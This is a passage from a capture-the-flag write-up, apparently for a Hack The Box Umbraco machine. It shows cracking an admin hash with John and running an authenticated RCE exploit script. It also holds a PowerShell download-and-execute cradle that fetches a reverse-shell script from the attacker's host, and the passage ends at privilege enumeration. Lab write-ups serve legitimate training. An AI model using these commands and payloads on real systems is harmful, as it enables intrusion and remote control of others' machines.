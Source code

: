 I eyeball the hash from this output and throw the admin hash into John. Admin hash `b8be16afba8c314ad33d812f22a04991b90e2aaa`
```bash
$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

baconandcheese   (?)
```
Thus, I got credentials `admin:baconandcheese`

I try eyeballing the other hashs for smith and throwing them into hashid, but couldn't get any good results.

The credentials to the login form at http://10.10.10.180/umbraco is `admin@htb.local:baconandcheese`

I try to figure out how create a page manually to get RCE but didn't succeed. To my surprise, [this](https://www.exploit-db.com/exploits/49488) exploit works despite the version discrepancy.

```bash
$ ./umbraco_auth_rce.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c whoami

iis apppool\defaultapppool
```

Cool, I get RCE. Let's see if I can ping back.
```bash
$ ./umbraco_auth_rce.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c "ping" -a "10.10.14.10"
```
====
```bash
$ sudo tcpdump -i tun0 icmp
16:18:41.653825 IP 10.10.10.180 > 10.10.14.10: ICMP echo request, id 1, seq 1, length 40
16:18:41.653829 IP 10.10.14.10 > 10.10.10.180: ICMP echo reply, id 1, seq 1, length 40
16:18:42.673623 IP 10.10.10.180 > 10.10.14.10: ICMP echo request, id 1, seq 2, length 40
16:18:42.673628 IP 10.10.14.10 > 10.10.10.180: ICMP echo reply, id 1, seq 2, length 40
```

Cool. Now that I know I can connect back I should be able to get a reverse shell.

I do the classic three staged AV:
1. Get a copy of Invoke-PowerShellTcp.ps1 and put it up onto your Python HTTP server `python -m http.server 8080`. Don't forget to place `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.10 -Port 53` at the end of Invoke-PowerShellTcp.ps1
2. Start up your listener `nc -lnvp 53`
3. Send the payload and catch a shell (hopefully) 
```bash
$ ./umbraco_auth_rce.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180 -c "powershell" -a "iex(new-object net.webclient).downloadstring('http://10.10.14.10:8080/shell.ps1')"
```

This'll land you as `iis apppool\defaultapppool`

## Privilege Escalation
### Enumeration
As soon as I drop into the box I check permission tokens. I expect to have loose access token privileges because I am a service account. More info on Access Tokens [here](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/access-tokens)
```bash
PS> whoami

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
```